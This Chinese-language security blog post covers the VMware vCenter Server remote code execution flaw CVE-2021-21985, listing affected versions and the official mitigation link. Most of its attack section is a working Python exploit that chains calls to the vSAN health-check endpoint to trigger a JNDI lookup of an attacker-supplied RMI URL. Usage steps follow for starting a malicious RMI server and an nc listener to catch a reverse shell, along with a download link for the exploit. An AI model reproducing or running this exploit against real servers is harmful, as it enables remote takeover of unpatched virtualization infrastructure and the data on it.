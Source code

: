 ```yaml
---
layout: post
title: "VMware vCenter Server 远程代码执行漏洞CVE-2021-21985"
subtitle: 'VMware vCenter Server 远程代码执行漏洞'
author: "hackeyes"
header-style: text
tags:
  - 网络攻防
---
```


# 漏洞详情

2021年5月25日，VMware 官方发布安全公告，披露了 VMware vCenter Server远程代码执行漏洞（CVE-2021-21985）、VMware vCenter Server 插件权限绕过漏洞（CVE-2021-21986 ）。

攻击者可构造恶意请求，通过vCenter中的默认开启的Virtual SAN Health Check插件造成远程代码执行漏洞。腾讯安全专家提醒 VMware 用户尽快采取安全措施阻止漏洞攻击。

 VMware是一家云基础架构和移动商务解决方案厂商，提供基于VMware的虚拟化解决方案。

# 受影响版本

VMware vCenter Server 7.0系列 < 7.0.U2b

VMware vCenter Server 6.7系列 < 6.7.U3n

VMware vCenter Server 6.5系列 < 6.5 U3p

VMware Cloud Foundation 4.x 系列 < 4.2.1

VMware Cloud Foundation 4.x 系列 < 3.10.2.1

# 修复建议

1、升级VMware vCenter Server 至最新版本。

2、针对 CVE-2021-21985 VMware vCenter Server 远程代码漏洞，可按照 https://kb.vmware.com/s/article/83829 相关措施进行缓解

# POC

```
import requests
import sys
import json
def send_request(host,uri,json):
    try:
        req = requests.post(url=host+baseuri+uri,json=json,headers=headers,verify=False)
        return req.text
    except:
        return False
def check_false(request):
    if request ==False or 'result' not in request:
        print("[*] No Vuln!")
        return True
if __name__ == '__main__':
    if len(sys.argv) < 2:
        print('''python3 cve-2021-21985.py https://host rmi://8.8.8.8:1099/Exploit''')
        sys.exit()
    host = sys.argv[1]
    payload = sys.argv[2]
    baseuri = "/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService"
    uris = ["/setTargetObject", "/setStaticMethod", "/setTargetMethod", "/setArguments", "/prepare", "/invoke"]
    headers = {'Content-Type': 'application/json', "User-Agent": "pentest"}
    stage_setTargetObject = json.loads('{"methodInput":[null]}')
    stage_setStaticMethod = json.loads('{"methodInput":["javax.naming.InitialContext.doLookup"]}')
    stage_setTargetMethod = json.loads('{"methodInput":["doLookup"]}')
    stage_setArguments = json.loads('{"methodInput":[["%s"]]}'%payload)
    stage_prepare = json.loads('{"methodInput":[]}')
    print("[*] start init TargetObject")
    # init TargetObject
    init_request  = send_request(host,uris[0],json=stage_setTargetObject)
    if check_false(init_request):
        print("[*] init failed!")
        exit()
    # Step2 setStaticMethod
    StaticMethod = send_request(host,uris[1],json=stage_setStaticMethod)
    if check_false(init_request):
        print("[*] StaticMethod init failed!")
        exit()
    # Step3 setTargetMethod
    StaticMethod = send_request(host,uris[2],json=stage_setTargetMethod)
    if check_false(init_request):
        print("[*] setTarget Method failed!")
        exit()
    # Step4 setArguments
    # print(stage_setArguments)
    setArguments = send_request(host,uris[3],json=stage_setArguments)
    if check_false(init_request):
        print("[*] setArguments failstage_setArgumentsed!")
        exit()
    # Step5 prepare
    setArguments = send_request(host,uris[4],json=stage_prepare)
    if check_false(init_request):
        print("[*] stage_prepare failed!")
        exit()
    # Step6 invoke
    setArguments = send_request(host,uris[5],json=stage_prepare)
    if check_false(init_request):
        print("[*] invoke failed!")
        exit()
```



#  验证方式

1.启动rmi服务 java -cp JNDI-Injection-Bypass-1.0-SNAPSHOT-all.jar payloads.EvilRMIServer attip

2.启动reverse shell监听，nc -lvvp port

3.执行payload 得到reverse shell

<a href="https://www.hackeye.cc/download/cve-2021-21985.zip" target="_blank">CVE-2021-21985</a>

